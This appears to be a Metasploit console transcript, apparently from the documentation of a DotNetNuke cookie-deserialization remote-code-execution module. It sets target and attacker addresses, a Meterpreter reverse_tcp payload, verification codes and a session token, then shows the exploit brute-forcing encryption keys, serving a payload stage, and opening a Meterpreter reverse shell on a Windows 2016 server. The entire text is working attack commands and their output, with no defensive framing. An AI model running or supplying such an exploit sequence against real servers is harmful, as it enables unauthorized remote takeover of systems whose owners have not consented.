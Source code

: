   ```
  msf5 > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8090
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_CODE /dnn930rc_verification_codes.txt
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_PLAIN 0-
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set ENCRYPTED true
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set SESSION_TOKEN 306A9A382E32E420739C589CCD5C44A7C2595A7163D3340DF4AD71D4223AFC6866E823F36C6171F84FD7352E6BEB17D66B9823567557988321A0867C7038FF6B0F5B0C1F943CBBDAC0B2EE3E
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set TARGET 4
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [+] 192.168.31.131:8090 - The target is vulnerable.
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] Finding Key...
  [*] Searching at 420798.449 keys/s ...... 15.24% of keyspace complete.
  [+] Possible Base Key Value Found: 2660A22D
  [*] Total number of Keys tried: 6558182
  [*] Time to crack: 15.585 seconds
  [*] Generated 128 possible base KEY values from 2660A22D
  [!] Finding possible base IVs. This may take a few minutes...
  [*] Found 4 potential Base IV values using 10 verification codes in 42.82 seconds.
  [*] Generated 512 possible base64 KEY and IV combinations.
  [!] Trying all possible KEY and IV combinations...
  [*] Starting HTTP listener on port 8080...
  [*] Using URL: http://192.168.31.128:8080/fCyQGz78
  [!] Sending 512 test Payload(s) to: /__. This may take a few minutes ...
  [*] Trying KEY and IV combination 440 of 512...
  [+] KEY: ByEypXIT and IV: zhKad5QC found
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49973) at 2019-07-10 15:39:12 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ``` 

